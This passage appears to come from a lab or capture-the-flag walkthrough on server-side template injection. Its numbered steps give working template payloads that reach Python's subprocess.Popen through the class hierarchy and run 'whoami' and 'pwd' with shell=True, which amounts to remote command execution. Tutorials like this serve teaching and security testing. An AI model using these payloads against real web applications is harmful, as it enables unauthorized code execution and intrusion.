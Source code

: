    Index 312 is indeed subprocess.Popen.

    Do not skip this step because your index might be different.

8. Now, that we have the right index, subprocess.Popen allows us to  execute commands. The following payload is an example:

    ```
    {{2022.__class__.__mro__[1].__subclasses__()[312]('whoami', shell=True, stdout=-1).communicate()}}
    ```

    ![image 49](img/image49.png)

    You managed to execute remote commands!

9. Now that remote commands are possible, see which directory we are in. Go to the payload and changing whoami to pwd.

    ```
    {{2022.__class__.__mro__[1].__subclasses__()[312]('pwd', shell=True, stdout=-1).communicate()}}
    ```
